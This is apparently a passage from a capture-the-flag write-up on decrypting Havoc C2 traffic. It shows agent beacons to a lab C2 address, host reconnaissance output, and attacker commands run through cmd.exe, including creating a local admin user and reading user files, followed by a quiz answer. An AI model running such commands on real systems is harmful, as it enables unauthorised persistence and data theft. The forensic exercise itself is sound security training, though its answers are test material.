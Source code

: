```
  [+] Job Request from Server to Agent
    [-] C2 Address: http://10.0.2.37/
    [-] Comamnd: COMMAND_NOJOB
[+] Parsing Request
  [+] Job Request from Server to Agent
    [-] C2 Address: http://10.0.2.37/
    [-] Comamnd: COMMAND_NOJOB
[+] Parsing Request
  [+] Job Request from Server to Agent
    [-] C2 Address: http://10.0.2.37/
    [-] Comamnd: COMMAND_NOJOB
  ...
  [Decrypted Request]

    Mz^a
        HQI
    UserName                SID
    ====================== ====================================
    CLIENTSERVER\paco       S-1-5-21-[REDACTED]
  ...
  Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : home
   Link-local IPv6 Address . . . . . : fe80::[REDACTED]
   IPv4 Address. . . . . . . . . . . : 10.0.2.38
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.0.2.1
  ...
  [Decrypted Response - COMMAND_PROC]
    8c:\windows\system32\cmd.exe`/c echo THM{HavOc_C2_[REDACTED]_Fun_FUN}
  ...
  [Decrypted Response - COMMAND_PROC]
    8c:\windows\system32\cmd.exeV/c net user admin[REDACTED] /add
  ...
  [Decrypted Response - COMMAND_PROC]
    8c:\windows\system32\cmd.exe`/c type C:\Users\[REDACTED]
  ...
    ...
    wrait9,THM{I_[REDACTED]_ToOk},fgoodall9@clientserver.thm
    ...
  ...
)
```


## Answers
### ✅ Answer 1  
**Q: What is the SID of the user that the attacker is executing everything under?**  
**Ans -** S-1-5-21-`[REDACTED]`
